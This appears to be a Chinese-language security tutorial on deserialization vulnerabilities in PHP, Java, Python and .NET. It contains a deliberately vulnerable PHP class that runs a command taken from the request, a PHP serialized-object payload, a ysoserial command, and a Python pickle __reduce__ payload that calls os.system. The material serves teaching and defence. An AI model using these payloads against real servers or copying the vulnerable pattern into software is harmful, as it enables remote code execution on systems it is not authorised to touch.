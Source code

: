 # 反序列化漏洞

反序列化漏洞（**Deserialization Vulnerability**）是Web安全中的一种高危漏洞，攻击者利用它可以**执行任意代码、命令执行、权限提升甚至控制服务器**。

---

## 1. 反序列化

> 序列化：将对象转换为字节流（或字符串）以便存储或传输  
> 反序列化：把字节流恢复为原始对象

在 Java、PHP、Python、.NET 等语言中都有类似机制。

---

## 2. 反序列化漏洞成因

当服务端**反序列化了不可信数据**，而反序列化过程中会触发某些类的**魔术方法（如构造方法、析构方法、`__wakeup()`、`__destruct()`）**、钩子、setter等逻辑，攻击者就可能构造恶意对象触发任意行为。

---

## 3. 典型语言和触发点

| 语言 | 关键点 | 说明 |
|------|--------|------|
| **PHP** | `unserialize()` | 若输入可控，就有风险，常结合魔术方法如 `__wakeup()`、`__destruct()` |
| **Java** | `ObjectInputStream.readObject()` | 反序列化时可触发 gadget 链 |
| **Python** | `pickle.loads()` | 能执行任意代码 |
| **.NET** | `BinaryFormatter.Deserialize()` | 与 Java 类似，存在 gadget 链 |

---

## 4. PHP反序列化举例

### 场景代码：
```php
class User {
    public $isAdmin = false;
    function __destruct() {
        if ($this->isAdmin) {
            system($_GET['cmd']);
        }
    }
}

$data = $_GET['data'];
$user = unserialize($data);
```

### 构造 payload：
```php
<?php
class User {
    public $isAdmin = true;
}
echo urlencode(serialize(new User()));
// 输出结果：O:4:"User":1:{s:7:"isAdmin";b:1;}
```

攻击者可构造 payload 触发 `__destruct()` 中的命令执行。

---

## 5. Java 反序列化利用链（gadget chain）

Java 常见漏洞链利用流行框架的特性，如：
- **Commons Collections**
- **Spring**
- **Hibernate**
- **Groovy**
- **Apache Struts**

核心思想是：利用库中反序列化过程可触发任意代码执行的类。

工具：
- **ysoserial**：生成 Java 反序列化 payload 的利器

示例：
```bash
java -jar ysoserial.jar CommonsCollections1 'calc' | base64
```

---

## 6. Python 中的 `pickle` 漏洞

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('calc',))

payload = pickle.dumps(RCE())
```

如果服务端接收 `pickle.loads(user_input)`，攻击者传入上面 payload 就能远程执行命令。

---



